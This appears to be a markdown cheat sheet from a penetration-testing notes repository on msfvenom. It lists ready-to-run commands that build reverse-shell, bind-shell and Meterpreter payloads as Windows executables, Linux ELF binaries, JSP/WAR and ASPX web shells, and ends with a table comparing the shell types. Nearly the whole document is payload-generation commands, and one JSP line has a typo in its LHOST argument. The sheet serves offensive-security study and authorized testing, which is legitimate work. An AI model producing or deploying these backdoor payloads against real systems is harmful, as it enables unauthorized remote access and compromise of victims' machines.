 # msfvenom

```
Description: Payload generator tool included with Metasploit Framework
It's used to create custom shellcode or backdoor executables for exploiting systems

msfvenom -h

Windows Binary (.exe) 32 Bit (x86)
    # Reverse Shell
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f exe -o shell.exe

    # Bind Shell
    msfvenom -p windows/shell_bind_tcp LPORT=4444 -f exe -o bind_shell.exe

    # Output in Hex, C Style, Exclude bad chars, Exitfunction thread
    msfvenom -p windows/shell_bind_tcp LHOST=192.168.0.1 LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows

Windows Binary (.exe) 64 Bit (x64)
    # Reverse Shell
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f exe -o shell.exe

    # Bind Shell
    msfvenom -p windows/x64/shell_bind_tcp LPORT=4444 -f exe -o bind_shell.exe

    # Meterpreter
    msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f exe -o shell.exe

Linux Binary (.elf) 32 Bit (x86)
    # Reverse Shell
    msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f elf > rev_shell.elf

    # Bind Shell
    msfvenom -p linux/x86/shell/bind_tcp  LHOST=192.168.0.1 -f elf > bind_shell.elf

Linux Binary (.elf) 64 Bit (x64)
    # Reverse Shell
    msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f elf > rev_shell.elf

    # Bind Shell
    msfvenom -p linux/x64/shell/bind_tcp LHOST=192.168.0.1 -f elf > rev_shell.elf

Java Server Pages (.jsp)
    msfvenom -p java/jsp_shell_reverse_tcp LHOST192.168.0.1 LPORT=4444 -f raw > shell.jsp

    # As .war
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f war -o shell.war

Active Sever Pages Extended (.aspx)
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f aspx -o rev_shell.aspx
```

| **Type**         | **Connection Direction** | **Use Case**                         | **Pros**                                          | **Cons**                                       |
|------------------|--------------------------|--------------------------------------|---------------------------------------------------|------------------------------------------------|
| **Reverse Shell** | Victim → Attacker         | When victim is behind NAT/firewall   | Easy to bypass firewalls; attacker controls port | Requires attacker to listen; needs outbound allowed |
| **Bind Shell**    | Attacker → Victim         | When victim can accept connections   | Simple setup on victim                          | Blocked by firewalls; attacker needs access    |
| **Meterpreter**   | Victim → Attacker         | Post-exploitation (Metasploit shell) | Powerful, stealthy, in-memory, many built-ins    | May trigger antivirus; requires exploit setup  |

## Back to README.md
[BACK](../README.md)